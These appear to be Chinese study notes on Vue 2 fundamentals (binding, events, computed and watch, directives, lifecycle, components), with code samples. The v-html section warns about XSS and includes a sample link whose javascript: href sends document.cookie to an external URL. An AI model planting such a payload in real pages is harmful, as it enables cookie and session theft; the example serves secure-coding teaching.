

# Vue 基础

特点：组件化模式、声明式编码、使用虚拟 DOM+优秀的 diff 算法

## 1.初识 Vue

```js
Vue.config.productionTip = false; // 关闭Vue生产提示
```

1. 创建 Vue 实例

   ```js
   new Vue({
     el: "#root", //el用于指定当前Vue实例为哪个容器服务，值通常为css选择器字符串
     data: {
       // data中用于存储数据，数据供el所指定的容器去使用
       name: "尚硅谷",
     },
   });
   ```

2. 总结

   1. 想让 Vue 工作，就必须创建一个 Vue 实例，且要传入一个配置对象；
   2. root 容器里的代码依然符合 html 规范，只不过混入了一些特殊的 Vue 语法；
   3. root 容器里的代码被称为【Vue 模板】；
   4. Vue 实例和容器是一一对应的；
   5. 真实开发中只有一个 Vue 实例，并且会配合着组件一起使用；
   6. {{xxx}}中的 xxx 要写 js 表达式，且 xxx 可以自动读取到 data 中的所有属性；
   7. 一旦 data 中的数据发生改变，那么模板中用到该数据的地方也会自动更新；

   ```
   注意区分：js表达式 和 js代码(语句)
      1. 表达式：一个表达式会产生一个值，可以放在任何一个需要值的地方：
          (1). a
          (2). a+b
          (3). demo(1)
          (4). x === y ? 'a' : 'b'
   
      2. js代码(语句)
          (1). if(){}
          (2). for(){}
   ```

## 2.模板语法

    Vue模板语法有2大类：
      1. 插值语法：
          功能：用于解析标签体内容。
          写法：{{xxx}}，xxx是js表达式，且可以直接读取到data中的所有属性。
      2. 指令语法：
          功能：用于解析标签(包括：标签属性、标签体内容、绑定事件......)。
          举例：v-bind:href="xxx" 或 简写为 :href="xxx"，xxx同样要写表达式，且可以直接读取到data中的所有属性。
      备注：Vue中有很多的指令，且形式都是 v-xxx

## 3.数据绑定

```
<!-- 普通写法 -->
单向数据绑定：<input type="text" v-bind:value="name"><br />
双向数据绑定：<input type="text" v-model:value="name">

<!-- 简写 -->
单向数据绑定：<input type="text" :value="name"><br />
双向数据绑定：<input type="text" v-model="name">
```

> `v-model` 只能应用在表单类元素中(输入类元素)

总结：

Vue 中有两种数据绑定的方式：

1.  单向绑定(`v-bind`)：数据值能从 data 流向页面。
2.  双向绑定(`v-model`)：数据不仅能从 data 流向页面，还可以从页面流向 data。

备注：

- 双向绑定一般都应用在表单类元素上（如：input、select 等）
- v-model:value 可以简写为 v-model，因为 v-model 默认手机的就是 value 值。

## 4.el 与 data 的两种写法

1.  el 有两种写法
    (1). new Vue 时配置 el 属性。

    ```js
    const vm = new Vue({
      el: "#root", // 第一种写法
    });
    ```

    (2). 先创建 Vue 实例，随后再通过 vm.$mount('#root')指定 el 的值。

    ```js
    const vm = new Vue({});
    
    vm.$mount("#root"); // 第二种写法
    ```

2.  data 有两种写法
    (1). 对象式

    ```js
    new Vue({
      el: "#root",
      // data的第一种写法：对象式
      data: {
        name: "尚硅谷",
      },
    });
    ```

    (2). 函数式

    ```js
    new Vue({
      el: "#root",
      data() {
        return {
          name: "尚硅谷",
        };
      },
    });
    ```

    > 如何选择：目前哪种写法都可以，以后学习到组件时，data 必须使用函数式，否则会报错。

3.  一个重要的原则；

- 由 Vue 管理的函数，一定不要写箭头函数，一旦写了箭头函数，this 就不再是 Vue 实例了。

## 5.MVVM 模型

1. M：模型(Model)：data 中的数据
2. V：视图(View)：模板代码
3. VM：视图模型(ViewModel)：Vue 实例

观察发现：

1. data 中所有的属性，最后都出现在了 vm 身上。
2. vm 身上所有的属性及 Vue 原型上所有属性，在 Vue 模板中都可以直接使用。

## 6.数据代理

1.  回顾 Object.defineProperty

    ```js
    let number = 3;
    let person = {
      name: "张三",
      sex: "男",
      // age: 18
    };
    // console.log(Object.keys(person)) // name sex age

    // 添加的属性默认不可被枚举
    Object.defineProperty(person, "age", {
      // value: 18,
      // enumerable: true, // 控制属性是否可以枚举 默认：false
      // writable: true, // 控制属性是否可以被修改 默认：false
      // configurable: true, // 控制属性是否可以被删除 默认：false

      // 当有人读取person的age属性时，get函数就会被调用，且返回值就是age的值
      get() {
        console.log("有人读取age属性了");
        return number;
      },

      // 当有人修改person的age属性时，set函数(setter)就会被调用，且会收到修改的具体值
      set(value) {
        console.log("有人修改了age属性，且值是：", value);
        number = value;
      },
    });

    console.log(Object.keys(person)); // name sex

    console.log(person);
    ```

2.  数据代理

    ```js
    let obj = { x: 100 };
    let obj2 = { y: 200 };

    Object.defineProperty(obj2, "x", {
      get() {
        return obj.x;
      },
      set(value) {
        obj.x = value;
      },
    });
    ```

    > 数据代理，通过一个对象代理对另一个对象中属性的操作（读/写）

3.  Vue 中的数据代理

    (1). Vue 中的数据代理:

        通过 vm 对象来代理 data 对象中属性的操作（读/写）

    (2). Vue 中数据代理的好处：

        更加方便的操作 data 中的数据

    (3). 基本原理

        通过 Object.defineProperty()把 data 对象中所有属性添加到 vm 上。
        在 getter/setter 内部去操作（读/写）data 中对应的属性。



## 7. 事件的基本使用

> 1. 使用 v-on:xxx 或 @xxx 绑定事件，其中 xxx 是事件名；
> 2. 事件的回调需要配置在 methods 对象中，最终会在 vm 上；
> 3. methods 中配置的函数，不要用箭头函数！否则 this 就不是 vm 了；
> 4. methods 中配置的函数，都是被 Vue 所管理的函数，this 的指向是 vm 或 组件实例对象；
> 5. @click="demo" 和 @click="demo($event)" 效果一致，但后者可以传参。

## 8. 事件修饰符

Vue 的事件修饰符：

1. prevent：阻止默认事件（常用）;（e.preventDefault()）
2. stop：阻止事件冒泡（常用）;（e.stopPropagation()）
3. once：事件只触发一次（常用）;
4. capture：使用事件的 捕获模式;
5. self：只有 event.target 是当前操作的元素时才出发事件;
6. passive：事件的默认行为立即执行，无需等待事件回调执行完毕。

```
<!-- 滚动条滚动 -->
<!-- <ul @scroll="demo" class="list"> -->

<!-- 滚轮滚动 -->
<!-- <ul @wheel.passive="demo" class="list"> -->

<!-- 阻止冒泡、阻止默认事件 -->
<div @click="showInfo">
  <a href="http://www.atguigu.com" @click.stop.prevent="showInfo"></a>
</div>
```

## 9.键盘事件

```html
<input
  type="text"
  placeholder="按下回车键提示输入"
  @keyup.13="showInfo"
/><br />

<input
  type="text"
  placeholder="按下回车键提示输入"
  @keyup.enter="showInfo"
/><br />

<input
  type="text"
  placeholder="按下回车键提示输入"
  @keyup.enter="showInfo"
/><br />

<input
  type="text"
  placeholder="按下Ctrl+y提示输入"
  @keydown.ctrl.y="showInfo"
/><br />

Vue.config.keyCodes.huiche = 13
<input
  type="text"
  placeholder="按下回车键提示输入"
  @keydown.huiche="showInfo"
/>

console.log(e.key) // 按键名字 console.log(e.keyCode) // 按键编码
console.log(e.target.value)
```

总结：

1. Vue 中常用的按键别名：
   回车 => enter
   删除 => delete (捕获“删除”和“退格”键)
   退出 => esc
   空格 => space
   换行 => tab (特殊，必须配合 keydown 去使用)
   上 => up
   下 => down
   左 => left
   右 => right

2. Vue 未提供别名的按键，可以使用按键原始的值去绑定，但注意要转为 kebab-case(短横线命名)。

3. 系统修饰键（用法特殊）：`ctrl、alt、shift、meta`
   (1). 配合 keyup 使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才能被触发。
   (2). 配合 keydoem 使用：正常触发事件。

4. 也可以使用 keyCode 去指定具体的按键（不推荐）

5. `Vue.config.keyCodes.自定义键名 = 键码`，可以去定制按键别名

## 10.计算属性

1. 定义：要用的属性不存在，要通过已有属性计算得来。

2. 原理：底层借助了 Object.defineProperty 方法提供的 getter 和 setter。

3. get 函数什么时候执行？
   (1). 初次读取时会执行一次。
   (2). 当依赖的数据发生改变时会被再次调用。

4. 优势：与 methods 实现相比，内部有缓存机制(复用)，效率更高，调试方便。

5. 备注：
   (1). 计算属性最终会出现在 vm 上，直接读取使用即可。
   (2). 如果计算属性要被修改，那必须写 set 函数去响应修改，且 set 中要引起计算时依赖的数据发生改变。

```js
computed: {
  fullName: {
    get() {
      return this.firstName +'-'+ this.lastName
    },
    set(value) {
      this.firstName = value.split('-')[0]
      this.lastName = value.split('-')[1]
    }
  },
  // 简写
  fullName() {
    return this.firstName +'-'+ this.lastName
  }
}
```

## 11.监视属性 watch

1. 当被监视的属性变化时，回调函数自动调用，进行相关操作

2. 监视的属性必须存在，才能进行监视

3. 监视的两种写法：
   (1). new Vue 时传入 watch 配置
   (2). 通过 vm.$watch 监视

```js
// watch: {
//   isHot: {
//     // 初始化时让handler调用一下
//     immediate: true,
//     // handler什么时候调用？当isHot发生改变时
//     handler(newValue, oldValue) {
//       console.log("newValue:",newValue,",oldValue:", oldValue)
//     }
//   }
// }
```

## 12.深度监视

1. Vue 中的 watch 默认不监测对象内部值的改变(一层)。

2. 配置 `deep:true` 可以监测对象内部值改变(多层)。

备注：  
 (1). Vue 自身可以监测对象内部值的改变，但 Vue 提供的 watch 默认不可以！  
 (2). 使用 watch 时根据数据的具体结构，决定是否采用深度监视。

## 13.computed 和 watch 之间的区别

1.  computed 能完成的功能，watch 都可以完成。
2.  watch 能完成的功能，computed 不一定能完成，例如：`watch 可以进行异步操作`。

两个重要的小原则：

1. `所有被 Vue 管理的函数，最好写成普通函数`，这样 this 的指向才是 vm 或 组件实例对象。
2. 所有不被 Vue 管理的函数（定时器的回调函数、ajax 的回调函数、Promise 的回调函数等），最好写成箭头函数，这样 this 的指向才是 vm 或 组件实例对象。

## 14.绑定样式

1. class 样式
   写法 `:class="xxx"` xxx 可以时字符串、对象、数组。
   字符串写法适用于：类名不确定，要动态获取。
   对象写法适用于：要绑定多个样式，个数不确定，名字也不确定。
   数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用。
2. style 样式
   `:style="{fontSize: xxx}"`其中 xxx 是动态值。
   `:style="[a, b]"`其中 a、b 是样式对象。

## 15.条件渲染

1. `v-if`

   写法：  
    (1). v-if="表达式"  
    (2). v-else-if="表达式"  
    (3). v-else="表达式"
   适用于：切换频率`较低`的场景。
   特点：不展示的 DOM 元素直接被删除。
   注意：`v-if `可以和：`v-else-if`、`v-else` 一起使用，但要求结构`不能被“打断”`。

2. `v-show`
   写法：v-show="表达式"
   适用于：切换频率`较高`的场景。
   特点：不展示的 DOM 元素不被移除，仅仅是使用样式隐蔽掉。

3. 备注：使用 v-if 时，元素可能无法被获取到，而使用 v-show 一定可以被获取到。

## 16.v-for 指令

1. 用于展示列表数据
2. 语法：v-for="(item, index) in xxx" :key="yyy"
3. 可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）

## 17.面试题：react、Vue 中的 key 有什么作用？（key 的内部原理）

1. 虚拟 DOM 中 key 的作用：
   key 是虚拟 DOM 对象的标识，当数据发生变化是，Vue 会根据【新数据】生成【新的虚拟 DOM】，随后 Vue 进行【新虚拟 DOM】与【旧虚拟 DOM】的差异比较，比较规则如下：

2. 对比规则：
   (1). 旧虚拟 DOM 中找到了与新虚拟 DOM 相同的 key：

   - 若虚拟 DOM 中内容没变，直接使用之前的真实 DOM！
   - 若虚拟 DOM 中内容变了，则生成新的真实 DOM，随后替换掉页面中之前的真实 DOM。

   (2). 旧虚拟 DOM 中未找到与新虚拟 DOM 相同的 key

   - 创建新的真实 DOM，随后渲染到新页面。

3. 用 index 作为 key 可能会引发新的问题：

   1. 若对数据进行：逆序添加、逆序删除等破坏顺序操作：
      - 会产生没有必要的真实 DOM 更新 ==> 界面效果没问题，但效率低。
   2. 如果结构中还包含输入类的 DOM：
      - 会产生错误 DOM 更新 ==> 界面有问题。

4. 开发中如何选择 key？
   1. 最好使用每条数据的唯一标识作为 key，比如 id、手机号、身份证号、学号等唯一值。
   2. 如果不存在对数据的逆序添加、逆序删除等破坏性操作，仅用于渲染列表用于展示，使用 index 作为 key 是没有问题的。

## 18.Vue 监视数据的原理

1. vue 会监视 data 中`所有层次`的数据。

2. 如何监视对象中的数据？
   通过`setter`实现监视，且要在`new Vue`时就传入 要监视的数据。
   (1). 对象中后追加的属性，Vue 默认不做响应式处理
   (2). 如需给后添加的属性做响应式，请使用如下 API：

   > Vue.set(target, propertyName/index, value) 或
   > vm.$set(target, propertyName/index, value)

3. 如何监测数组中的数据？
   通过包裹数组更新元素的方法实现，本质就是做了两件事：
   (1). 调用原生对应的方法对数组进行更新。
   (2). 重新解析模板，进而更新页面。

4. 在 Vue 修改数组中的某个元素一定要用如下方法：
   1. 使用这些 API：`push()`、`pop()`、`shift()`、`unshift()`、`splice()`、`sort()`、`reverse()`
   2. `Vue.set()` 或 `vm.$set()`

特别注意：`Vue.set()` 和 `vm.$set()` 不能给 vm 或 vm 的根实例对象添加属性！！！

```js
addSexType(){ //添加性别属性 默认值：男
    // Vue.set(this.student,'sex','男')
    this.$set(this.student,'sex','男')
},
addFriend(){ //添加一个朋友
    this.student.friend.unshift({name:'tony',age:'25'})
},
editFirstFriendName(){ //修改第一个朋友的名字为张三
    // this.student.friend[0].name = '张三'
    // Vue.set(this.student.friend[0],'name','张三')
    this.$set(this.student.friend[0],'name','张三')
},
addHobby(){ //添加一个爱好
    this.student.hobby.push("搓背")
},
editFirstHobby(){ //修改第一个爱好
    // this.student.hobby.splice(0,1,'开车')
    // Vue.set(this.student.hobby,0,'开车')
    this.$set(this.student.hobby,0,'开车')
},
filHobby(){ //过滤掉爱好中的抽烟
    this.student.hobby = this.student.hobby.filter((e) => {
        return e != '抽烟'
    })
}
```

## 19.收集表单数据

若： `<input type="text"/>`，则`v-model`收集的是`value`值，用户输入的就是`value`值。
若：`<input type="radio"/>`，则`v-model`收集的是`value`值，且要给标签配置`value`值。
若：`<input type="checkbox"/>`

1. 没有配置 input 的 value 属性，那么收集的就是 checked（勾选 or 未勾选，是布尔值）
2. 配置 input 的 value 属性：
   (1). v-model 的初始值是非数组，那么收集的就是 checked（勾选 or 未勾选，是布尔值）
   (2). v-model 的初始值是数组，那么收集的就是 value 组成的数组

备注：v-model 的三个修饰符：

- lazy：失去焦点再收集数据
- number：输入字符串转为有效的数字
- trim：输入首尾空格过滤

## 20.过滤器

定义：对要显示的数据进行特定 格式化后再显示（使用与一些简单的逻辑的处理）。

语法：

1. 注册过滤器：`Vue.filter(name, callback)` 或 `new Vue({filters:{}})`
2. 使用过滤器，`{{ xxx | 过滤器名}}` 或 `v-bind:属性 = "xxx | 过滤器名"`

备注：

1. 过滤器也可以接收额外参数，多个过滤器也可以串联
2. 并没有改变原本的数据，是产生新的对应的数据

```js
<!-- 使用过滤器实现 -->
<h3>当前时间：{{time | formatTime}}</h3>
<!-- 使用过滤器实现(传参) -->
<h3>当前时间：{{time | formatTime('YYYY_MM_DD')}}</h3>
<!-- 使用过滤器实现(串联) -->
<h3>当前时间：{{time | formatTime | mySlice}}</h3>

<div id="root2">
    {{name | mySlice}}
    <h2 :x="name | mySlice">ss</h2>
</div>

// 全局过滤器
Vue.filter("mySlice", function (value) {
  return value.slice(0, 4);
});

// 局部过滤器
new Vue({
  filters: {
    formatTime(time, str = "YYYY-MM-DD HH:mm:ss") {
      return dayjs(time).format(str);
    },
  },
});
```

## 21.内置指令

`v-bind`：单向绑定解析表达式，可简写为 `:xxx`
`v-model`：双向数据绑定
`v-for`：遍历数组/对象/字符串
`v-on`：绑定事件监听，可简写为`@`
`v-if`：条件渲染（动态控制节点是否存在）
`v-else`：条件渲染（动态控制节点是否存在）
`v-show`：条件渲染（动态控制节点是否展示）
`v-text`：

1. 作用：向其所在的节点中渲染文本内容。
2. 与插值语法的区别：`v-text` 会替换点节点中的内容，`{{xxx}}`则不会

`v-html`：

1. 作用：向指定节点中渲染包含 html 结构的内容。
2. 与插值语法的区别：
   (1). v-html 会替换掉节点中所有的内容，{{xxx}}则不会。
   (2). v-html 可以识别 html 结构。
3. 严重注意：v-html 有安全问题！！！
   (1). 在网站上动态渲染任意 HTML 是非常危险的，容易导致 XSS 攻击。
   (2). 一定要在可信的内容上使用 v-html，永远不要用在用户提交的内容上！

   ```js
   <h2 v-html="str2"></h2>;
   
   str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>这里有你要的资源</a>';
   ```

`v-cloak`(没有值)：

1. 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性。
2. 使用 css 配合 v-cloak 可以解决网速慢时页面展示出{{xxx}}的问题。

   ```js
   [v-cloak] {
     display: none;
   }
   
   <div id="root" v-cloak>
     {{name}}
   </div>
   ```

`v-once`：

1. v-once 所在节点在初次动态渲染后，就视为静态内容了。
2. 以后数据的改变不会引起 v-once 所造结构的更新，可以用于优化性能。
   ```js
   <h2 v-once>初始化的n值是：{{n}}</h2>
   <h2>当前的n值是：{{n}}</h2>
   ```

`v-pre`：

1. 跳过其所在节点的编译过程。
2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。
   ```html
   <h2 v-pre>没有使用指令语法</h2>
   <h2>当前的n值：{{n}}</h2>
   ```

## 22.自定义指令

1. 定义语法：
   (1). 局部指令：

   ```js
   new Vue({                             new Vue({
     directives:{                          directives:{
       指令名: 配置对象         或            指令名: 回调函数
     }                                     }
   })                                    })
   ```

   (2). 全局指令：
   `Vue.directive(指令名, 配置对象)` 或 `Vue.directive(指令名, 回调函数)`

2. 配置对象中常用的 3 个问题：
   (1). `bind`：指令与元素成功绑定是调用、
   (2). `inserted`：指令所在元素被插入页面时调用。
   (3). `update`：指令所在模板结构被重新解析时调用。

3. 备注：
   1. 指令定义时不加 v-，但使用时要加 v-；
   2. 指令名如果是多个单词，要使用 kebab-case 命名方式，不要用 camelCase 命名。

```js
new Vue({
  directives: {
    // big函数何时会被调用：1.指令与元素成功绑定时  2.指令所在的模板被重新解析时
    big(element, binding) {
      element.innerText = binding.value * 10;
    },
    fbind: {
      // 指令与元素成功绑定时（一上来）
      bind(element, binding) {
        console.log(this); // 此处的this是window
        element.value = binding.value;
      },
      // 指令所在元素被插入页面时
      inserted(element, binding) {
        element.focus();
      },
      // 指令所在的模板被重新解析时
      update(element, binding) {
        element.value = binding.value;
      },
    },
  },
});
```

## 23.生命周期

1. 又名：生命周期回调函数、生命周期函数、生命周期钩子。
2. 是什么：Vue 在关键时刻帮我们调用的一些特殊名称的函数。
3. 生命周期函数的`名字不可更改`，但函数的具体内容是程序员根据需求编写的。
4. 生命周期函数中的 this 指向是 vm 或 组件实例对象。

常用的生命周期钩子：

1. `mounted`：发送 ajax 请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。
2. `beforeDestory`：清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。

关于销毁 Vue 实例：

1. 销毁后借助 Vue 开发者工具看不到任何消息。
2. 销毁后自定义事件会失效，但原生 DOM 事件依然有效。
3. 一般不会在 beforeDestory 操作数据，因为即使操作数据，也不会再触发更新流程了。


## 24.Vue 中使用组件

步骤：

1. 定义组件(创建组件)
2. 注册组件
3. 使用组件(写组件标签)

一. 如何定义一个组件？

使用`Vue.extend(options)`创建，其中 `options` 和 `new Vue(options)`时传入的那个 options 几乎一样，但也有点区别；

区别如下：

1. el 不要写，为什么？———— 最终所有的组件都要经过一个 vm 的管理，由 vm 中的 el 决定服务哪个容器。
2. data 必须写成函数，为什么？ ———— 避免组件被复用时，数据存在引用关系。

备注：使用 template 可以配置组件结构。

二. 如何注册组件？

1. 局部注册：靠`new Vue`的时候传入`components`选项
2. 全局注册：靠`Vue.component('组件名',组件)`

三. 编写组件标签：
`<school></school>`

```js
//创建hello组件
const hello = Vue.extend({
  data() {
    return {
      msg: "hello",
    };
  },
  template: `
      <div>
          <h2>{{msg}}</h2>
      </div>
  `,
});

//注册全局组件
Vue.component("hello", hello);
```

## 25.组件的几个注意点

1.  关于组件名：

    一个单词组成：

        第一种写法(首字母小写)：school
        第二种写法(首字母大写)：School

    多个字母组成：

        第一种写法(kebab-case命名)：my-school
        第二种写法(CamelCase命名)：MySchool(需要Vue脚手架支持)

    备注：

        (1). 组件名尽可能回避HTML中已有的元素名称，例如：h2、H2都不行。
        (2). 可以使用name配置项指定组件在开发者工具中呈现的名字。

2.  关于自检标签：

    第一种写法：`<school></school>`
    第二种写法：`<school/>`
    备注：不使用脚手架时，<school/>会导致后续组件不能渲染。

3.  一个简写方式：

    `const school = Vue.extend(options) 可简写为：const school = options`

## 26. VueComponent

1.  school 组件本质是一个名为 VueComponent 的构造函数，且不是程序员定义的，是 Vue.extend 生成的。

2.  我们只需要写`<school/>`或`<school></school>`，Vue 解析时会帮我们创建 school 组件的实例对象，即 Vue 帮我们执行的：`new VueComponent(options)`。

3.  特别注意：每次调用 Vue.extend，返回的都是一个全新的 VueComponent!!!

4.  关于 this 指向：

    (1). 组件配置中：

        data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【Vuecomponent实例对象】。

    (2). new Vue(options)配置中：

        data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【Vue实例对象】。

5.  VueComponent 的实例对象，以后简称 vc（也可称之为：组件实例对象）。
    Vue 的实例对象，以后简称 vm。

## 27.一个重要的内置关系

1. 一个重要的内置关系：`VueComponent.prototype.__proto__ === Vue.prototype`
2. 为什么要有这个关系：让组件实例对象（vc）可以访问到 Vue 原型上的属性、方法。

```js
Vue.prototype.x = 99;

const school = Vue.extend({
  methods: {
    showX() {
      // this：VueComponent的实例对象(vc)
      console.log(this.x); // 99
      console.log(this.__proto__.__proto__ === vm.__proto__); // true
    },
  },
});

// school：VueComponent
console.log(school.prototype.__proto__ === vm.__proto__); // true
```


